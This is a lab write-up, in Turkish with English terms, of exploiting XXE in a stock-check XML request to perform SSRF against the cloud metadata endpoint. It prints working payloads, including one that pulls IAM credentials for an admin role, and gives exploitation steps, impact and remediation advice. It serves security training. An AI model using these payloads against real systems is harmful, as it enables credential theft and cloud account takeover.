





# Exploiting XXE to perform SSRF attacks

## 1. Lab Bilgisi

**Difficulty:** Apprentice

## 2. Vulnerability Özeti

Bu labda stok kontrolü için gönderilen XML verisinin sunucu tarafında güvenli olmayan şekilde parse edildiğini gördüm. XML parser external entity tanımlarını işlediği için entity hedefini local dosya yerine internal metadata servisine yönlendirdim. `http://169.254.169.254/` adresine yapılan istekler response içinde döndüğü için XXE zafiyetini SSRF amacıyla kullanabildim.

## 3. Kullanılan Payload

İlk metadata endpoint kontrolü:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY baris SYSTEM "http://169.254.169.254/latest"> ]>
<stockCheck>
  <productId>&baris;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Final payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY baris SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&baris;</productId>
  <storeId>1</storeId>
</stockCheck>
```

## 4. Exploitation Steps

1. İlk olarak ürün detay sayfasında `Check stock` fonksiyonunu tespit ettim.



2. `Check stock` isteğini Burp Suite ile yakaladım. İstek body kısmında `productId` ve `storeId` alanlarını içeren XML verisi gönderildiğini gördüm.



3. XML verisinin başına external entity tanımı içeren bir `DOCTYPE` ekledim ve entity hedefini cloud metadata servisinin link-local adresi olan `http://169.254.169.254/latest` olarak belirledim.

```xml
<!DOCTYPE stockCheck [ <!ENTITY baris SYSTEM "http://169.254.169.254/latest"> ]>
```

4. Entity referansını `productId` alanında çağırarak isteği gönderdim. Response içinde metadata servisinden dönen path bilgileri görüntülendi.



5. Response içindeki path bilgilerini takip ederek entity hedefini sırasıyla metadata alt dizinlerine yönlendirdim. Son olarak IAM credential endpoint'i olan `/latest/meta-data/iam/security-credentials/admin` adresine ulaştım.

```xml
<!DOCTYPE stockCheck [ <!ENTITY baris SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```



6. İsteği gönderdiğimde response içinde `SecretAccessKey` dahil olmak üzere IAM credential bilgileri döndü ve lab başarıyla çözüldü.



## 5. Impact

XXE zafiyeti SSRF ile birleştirildiğinde saldırgan, uygulama sunucusunun erişebildiği internal servisleri hedefleyebilir. Cloud ortamlarında metadata servislerine erişim; access key, secret key, token veya rol bilgileri gibi kritik credential verilerinin sızmasına neden olabilir. Bu bilgiler daha sonra cloud hesabında yetkisiz işlem yapmak için kullanılabilir.

## 6. Remediation

XML parser üzerinde external entity ve `DOCTYPE` desteği kapatılmalıdır. Sunucu tarafında XML işleme gerekiyorsa secure processing ayarları etkinleştirilmeli ve dış kaynak çözümleme devre dışı bırakılmalıdır. Ayrıca sunucudan yapılan outbound istekler network seviyesinde kısıtlanmalı, metadata servislerine erişim yalnızca gerekli servislerle sınırlandırılmalı ve cloud ortamlarında IMDSv2 gibi ek koruma mekanizmaları kullanılmalıdır.
